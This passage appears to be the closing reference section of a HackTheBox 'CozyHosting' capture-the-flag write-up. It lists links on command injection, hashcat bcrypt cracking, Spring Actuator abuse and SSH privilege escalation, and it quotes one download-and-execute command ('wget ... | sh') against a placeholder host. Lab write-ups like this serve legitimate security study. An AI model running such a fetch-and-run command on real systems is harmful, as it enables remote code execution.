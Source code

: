 - Get root flag
![](./IMG/58.png)
## Reference 

### writeup / walkthrough / discussion 

- [(Discussion) CozyHosting](https:/forum.hackthebox.com/t/official-cozyhosting-discussion/296713)
- [(Writeup)CozyHosting 1](https:/medium.com/@cybrpunk_panda/cozyhosting-writeup-hack-the-box-40d37b3075cd)
- [(Writeup) CozyHosting 2](https:/medium.com/@li_allouche/hack-the-box-cozyhosting-writeup-1c1347c15aa0)
### Command Injection

- [Whitespace Bypass](https:/www.google.com/search?q=Whitespace+Bypass+command+injection+ctfnote&rlz=1C5CHFA_enTW1055TW1055&oq=Whitespace+Bypass+command+injection+ctfnote&gs_lcrp=EgZjaHJvbWUyBggAEEUYOTIJCAEQIRgKGKAB0gEJMTE3MTVqMGo0qAIAsAIA&sourceid=chrome&ie=UTF-8)
- [Sleep Command in Linux](https:/linuxhint.com/sleep_command_linux/)
- [Is it possible to execute the result of wget as a command?](https:/unix.stackexchange.com/questions/107864/is-it-possible-to-execute-the-result-of-wget-as-a-command)

```
wget -O - http:/foo.com/somescript | sh
```
###  crackpassword - hashcat

- [(hashcat)help to identify hash type](https:/www.google.com/search?q=hashcat+identify+hash+type&rlz=1C5CHFA_enTW1055TW1055&oq=hashcat+identify+hash+type+&gs_lcrp=EgZjaHJvbWUyCAgAEEUYHhg50gEINzIxMmowajSoAgCwAgA&sourceid=chrome&ie=UTF-8)
- [(hashcat)faster way to crack bcrypt](https:/hashcat.net/forum/thread-9345.html)
### Decompiler 

- [JD-GUI](http:/java-decompiler.github.io/)
### PostgreSQL 

- [PostgreSQL: Basic psql Commands](https:/www.commandprompt.com/education/postgresql-basic-psql-commands/)
- [(official site)psql command](https:/www.postgresql.org/docs/current/app-psql.html)
### Spring Actuator 

- [(HackTricks)Spring Actuator](https:/book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)
- [Spring Boot Actuators](https:/0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators)
- [Spring Boot漏洞exploit利用方法渗透技巧汇总](https:/www.freebuf.com/articles/web/271347.html)

### SSH Escalating 

- [(GTFObins)SSH](https:/gtfobins.github.io/gtfobins/ssh/)

###### tags: `HackTheBox` `Command Injection` `WhiteSpace Bypass` `Spring Actuator` `PostgreSQL` `Java Decompiler` `CrackPassword`